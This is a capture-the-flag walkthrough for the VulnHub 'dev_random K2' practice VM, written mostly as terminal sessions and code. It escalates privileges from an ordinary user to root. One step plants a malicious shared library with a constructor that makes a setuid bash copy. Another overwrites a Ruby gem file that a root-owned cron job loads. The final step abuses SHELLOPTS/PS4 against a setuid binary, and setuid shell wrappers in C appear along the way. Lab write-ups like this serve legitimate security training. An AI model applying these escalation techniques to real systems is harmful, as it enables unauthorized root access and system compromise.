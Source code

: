 <https://www.hackingarticles.in/hack-the-dev-random-k2-vm-boot2root-challenge/>

<https://www.boiteaklou.fr/Abusing-Shared-Libraries.html>

<https://unix.stackexchange.com/posts/108269/revisions>

<http://devloop.users.sourceforge.net/index.php?article154/solution-du-ctf-dev-random-k2-de-vulnhub>

<https://www.youtube.com/watch?v=9B1C_xi_yic>

<https://www.vulnhub.com/entry/devrandom-k2,204/>




Keys: shared libraries, cat -v, bash -p, ruby gem which, sudo 1.8.6p7, privilege increase with SHELLOPTS and PS4

# Login ssh user/password

    [user@localhost ~]$ sudo -l
    Matching Defaults entries for user on this host:
        !visiblepw, always_set_home, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE
        KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
        env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
        env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME
        LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
        secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

    User user may run the following commands on this host:
        (user2) /bin/calc

    [user@localhost ~]$ strings /bin/calc
    ...
    Calculating something, please wait...
    /home/user/.config/libcalc.so <== HERE
    ...

    [user@localhost ~]$ ldd /bin/calc 
    linux-vdso.so.1 =>  (0x00007ffe8b6c0000)
    libdl.so.2 => /lib64/libdl.so.2 (0x00007f1f968b7000)
    libstdc++.so.6 => /lib64/libstdc++.so.6 (0x00007f1f965ae000)
    libm.so.6 => /lib64/libm.so.6 (0x00007f1f962ab000)
    libgcc_s.so.1 => /lib64/libgcc_s.so.1 (0x00007f1f96095000)
    libc.so.6 => /lib64/libc.so.6 (0x00007f1f95cd4000)
    /lib64/ld-linux-x86-64.so.2 (0x00007f1f96ac1000)

    [user@localhost ~]$ strace /bin/calc 2>&1 | grep -i -E "open|access"
    access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
    open("/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
    open("/lib64/libdl.so.2", O_RDONLY|O_CLOEXEC) = 3
    open("/lib64/libstdc++.so.6", O_RDONLY|O_CLOEXEC) = 3
    open("/lib64/libm.so.6", O_RDONLY|O_CLOEXEC) = 3
    open("/lib64/libgcc_s.so.1", O_RDONLY|O_CLOEXEC) = 3
    open("/lib64/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
    open("/home/user/.config/libcalc.so", O_RDONLY|O_CLOEXEC) = 3  <== HERE


# Exploit shared libraries


    [user@localhost home]$ ls -al
    ...
    drwx------.  3 user  user   98 Nov 22 06:18 user <== HERE
    ...
    user@localhost home]$ chmod +rx user
    [user@localhost home]$ ls -al
    ...
    drwxr-xr-x.  3 user  user   98 Nov 22 06:18 user
    ...



    bash-4.2$ cat /home/user/libcalc.c 
    #include <stdio.h>
    #include <stdlib.h>

    static void x() __attribute__ ((constructor));

    void x() {
        system("cp /bin/bash /tmp/bash1 && chmod 4755 /tmp/bash1 && /tmp/bash1 -p");
    }

    gcc -shared -o /home/user/.config/libcalc.so -fPIC libcalc.c 
    [user@localhost .config]$ id
    uid=1000(user) gid=1000(user) groups=1000(user) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    [user@localhost .config]$ sudo -u user2 /bin/calc 
    [sudo] password for user: 
    Calculating something, please wait...
    [user2@localhost .config]$ id
    uid=1001(user2) gid=1001(user2) groups=1001(user2) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

    bash-4.2$  cat /tmp/bash2.c 

    void main() {
            setreuid(geteuid(), getuid());
            setregid(getegid(), getgid());
            system("/bin/bash");
    }

    [user2@localhost ~]$ gcc bash2.c -o  bash2

    bash1-4.2$ gcc bash2.c -o bash2
    bash1-4.2$ ./bash2 
    [user2@localhost .config]$ id
    uid=1001(user2) gid=1000(user) groups=1000(user) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

# Exploit crontab

    bash-4.2$ tac /etc/crontab 
    [user@localhost tmp]$ cat -v /etc/crontab
    SHELL=/bin/bash
    PATH=/sbin:/bin:/usr/sbin:/usr/bin
    MAILTO=root
    HOME=/

    # For details see man 4 crontabs

    * * * * * user3 /sbin/bckup
    ^[[3A

    # Example of job definition:
    # .---------------- minute (0 - 59)
    # |  .------------- hour (0 - 23)
    # |  |  .---------- day of month (1 - 31)
    # |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
    # |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
    # |  |  |  |  |
    # *  *  *  *  * user-name  command to be executed



# Exploit ruby program


    [user2@localhost ~]$ cat /sbin/bckup
    #!/usr/bin/env ruby

    require 'rubygems'
    require 'zip'

    directory = '/etc/firewalld/'
    zipfile_name = '/tmp/firewalld-backup.zip'

    File.delete(zipfile_name) if File::exists?(zipfile_name)
    Zip::File.open(zipfile_name, Zip::File::CREATE) do |zipfile|
            Dir[File.join(directory, '**', '**')].each do |file|
              zipfile.add(file.sub(directory, ''), file)
            end
    end


    [user2@localhost ~]$ gem which zip
    /usr/local/share/gems/gems/rubyzip-1.2.1/lib/zip.rb
    [user2@localhost ~]$ ls -al /usr/local/share/gems/gems/rubyzip-1.2.1/lib/zip.rb
    -rw-rw-r--. 1 root user2 49 Mar 27  2021 /usr/local/share/gems/gems/rubyzip-1.2.1/lib/zip.rb
    echo '`cp /bin/bash /tmp/bash3 && chmod +s /tmp/bash3`' > /usr/local/share/gems/gems/rubyzip-1.2.1/lib/zip.rb



    [user2@localhost ~]$ /tmp/bash3
    bash3-4.2$ id
    uid=1001(user2) gid=1001(user2) euid=996(user3) egid=994(user3) groups=994(user3),1001(user2) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    bash3-4.2$ ./bash2 
    bash: /home/user2/.bashrc: Permission denied
    bash-4.2$ id
    uid=996(user3) gid=994(user3) groups=994(user3),1001(user2) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023



# Get root

    bash-4.2$ find / -perm -u=s -type f 2>/dev/null 
    /tmp/bash3
    /tmp/bash1
    /usr/bin/chfn
    /usr/bin/chage
    /usr/bin/gpasswd
    /usr/bin/newgrp
    /usr/bin/chsh
    /usr/bin/sudo
    /usr/bin/mount
    /usr/bin/su
    /usr/bin/umount
    /usr/bin/crontab
    /usr/bin/pkexec
    /usr/bin/passwd
    /usr/sbin/pam_timestamp_check
    /usr/sbin/unix_chkpwd
    /usr/sbin/usernetctl
    /usr/lib/polkit-1/polkit-agent-helper-1
    /usr/lib64/dbus-1/dbus-daemon-launch-helper
    /usr/local/bin/whoisme <== HERE

    bash-4.2$ ls -al /usr/local/bin/whoisme
    -rwsr-xr--. 1 root user3 8616 Aug 30  2017 /usr/local/bin/whoisme


## Exploit SHELLOPTS, PS4

    bash-4.2$ env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/bash5 && chown root.root /tmp/bash5 && chmod 4755 /tmp/bash5)' /bin/sh -c '/usr/local/bin/whoisme'
    chown: changing ownership of '/tmp/bash5': Operation not permitted
    /usr/local/bin/whoisme
    /usr/bin/logname
    user
    bash-4.2$ /tmp/bash5 -p
    bash5-4.2# id
    uid=996(user3) gid=994(user3) euid=0(root) groups=994(user3),1001(user2) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    bash5-4.2# ./bash2 
    [root@localhost tmp]# id
    uid=0(root) gid=994(user3) groups=994(user3),1001(user2) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023



    #include <stdio.h>
    int main() {
        setuid(0);
        setgid(0);
        system("/bin/sh");
    }

    bash-4.2$ gcc egg.c  -o egg
    bash-4.2$ env -i SHELLOPTS=xtrace PS4='$(chown root:root /tmp/egg && chmod +s /tmp/egg)' /bin/sh -c '/usr/local/bin/whoisme'
    chown: changing ownership of '/tmp/egg': Operation not permitted
    /usr/local/bin/whoisme
    /usr/bin/logname
    user
    bash-4.2$ ls -al /tmp/egg
    -rwsrwsr-x. 1 root root 8568 Nov 15 05:54 /tmp/egg
    bash-4.2$ ./egg 
    sh-4.2# id
    uid=0(root) gid=994(user3) groups=994(user3),1001(user2) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
